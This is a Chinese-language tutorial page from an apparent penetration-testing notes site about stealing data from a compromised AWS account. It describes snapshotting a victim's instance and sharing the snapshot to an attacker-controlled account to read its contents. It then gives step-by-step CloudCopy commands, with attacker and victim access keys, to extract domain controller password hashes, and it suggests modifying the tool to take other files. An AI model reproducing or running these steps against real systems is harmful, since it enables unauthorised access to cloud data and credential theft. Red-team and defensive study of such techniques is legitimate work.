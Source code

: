 在拿到目标 AWS 控制台权限时，如果无法登录到实例，可以为目标实例打个快照，然后将快照共享给自己。

</br>

<img width="800" src="/img/1650001136.png"></br>

将自己的账	号 ID 添加到快照共享后，在自己的 AWS 快照控制台的私有快照处就能看到目标快照了，此时就可以将其挂载到自己的实例，查看里面的数据了。

</br>

<img width="800" src="/img/1650001161.png"></br>

目前也已经有了自动化工具了，CloudCopy 可以通过提供的访问凭证自动实现创建实例快照、自动挂载快照等操作



不过 CloudCopy 默认只会获取实例中的域成员哈希值，也就是说前提目标实例是一个域控，不过将这个工具稍微加以修改，就可以获取到其他的文件了，下面来看下这个工具的使用。



获取 CloudCopy 工具

```bash
git clone https://github.com/Static-Flow/CloudCopy.git
cd CloudCopy
python3 CloudCopy.py
```

> 如果运行报错，一般是因为第三方库缺失，根据提示安装对应模块即可

接下来，开始进行相应的配置，输入自己的 AWS 账号 ID 及访问凭证以及目标的访问凭证

```bash
manual_cloudcopy
show_options
set attackeraccountid xxx
set attackerAccessKey xxx
set attackerSecretKey xxx
set victimAccessKey xxx
set victimSecretKey xxx
set region ap-northeast-2
```

</br>

<img width="800" src="/img/1650001184.png"></br>

配置好之后，就可以利用 CloudCopy 进行哈希窃取了

```bash
stealDCHashes
```

这时会提示选择实例，直接输入要窃取的实例编号即可

</br>

<img width="800" src="/img/1650001208.png"></br>

等待一段时间，就可以看到已经读到 DC 的哈希了。

</br>

<img width="1000" src="/img/1650001226.png"></br>



<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>